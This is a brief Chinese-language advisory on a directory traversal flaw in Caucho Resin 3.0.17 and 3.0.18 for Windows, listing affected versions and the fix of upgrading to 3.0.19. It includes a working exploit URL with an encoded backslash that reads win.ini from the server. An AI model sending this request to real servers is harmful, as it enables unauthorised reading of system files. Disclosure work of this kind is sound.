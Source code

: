 ### 一 漏洞描述
Resin是一款由Caucho Technology开发的WEB服务器,可使用在Microsoft Windows操作系统下。

Resin捆绑了自己的单机版Web服务器,默认下运行在8080端口上,其对用户请求的处理上存在漏洞,远程攻击者可以利用此漏洞遍历服务器的目录。

### 二 利用方式
http://host:port/C:%5c/windows/win.ini

### 三 修复方式
受影响系统:

Caucho Technology Resin v3.0.18 for Windows

Caucho Technology Resin v3.0.17 for Windows

不受影响系统:

Caucho Technology Resin v3.0.19

升级Resin版本至3.0.19及以上
